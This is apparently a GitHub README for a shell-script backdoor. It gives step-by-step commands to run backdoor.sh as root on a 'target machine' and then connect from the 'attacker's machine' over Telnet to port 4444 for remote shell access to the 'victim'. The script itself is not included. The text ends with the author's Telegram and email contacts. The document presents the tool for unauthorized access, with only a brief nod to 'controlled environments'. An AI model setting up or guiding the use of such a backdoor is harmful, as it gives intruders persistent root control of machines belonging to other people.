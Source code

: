 # Telnet Backdoor  
`Simple backdoor setup using Telnet for remote shell access.`

## Features

### 1. Backdoor Script  
- Download and execute the script on the **target machine** with root privileges or `chmod +x` to ensure proper execution.

### 2. Telnet Connection  
- Connect to the victim machine using Telnet from the **attacker's machine**.

## About  
`This setup allows for a reverse shell-like connection using Telnet, suitable for basic backdoor access in controlled environments.`

### Usage  
**1. On the target machine:**  
- Download the script  
- Grant execution permission:  
  - `chmod +x backdoor.sh`  
- Run the script as root:  
  - `sudo ./backdoor.sh`

**2. On the attacker’s machine:**  
> Start Telnet session:
- `telnet`  
> Enable binary mode:  
- `toggle binary`  
> Connect to victim:  
- `open 192.168.0.xxx 4444`

[You should now be successfully connected to the victim machine.]\
```Note: The port can be changed by modifying the backdoor.sh source code.```

---

`Telegram: t.me/oghbnz | E-mail: rhashibur75@gmail.com`
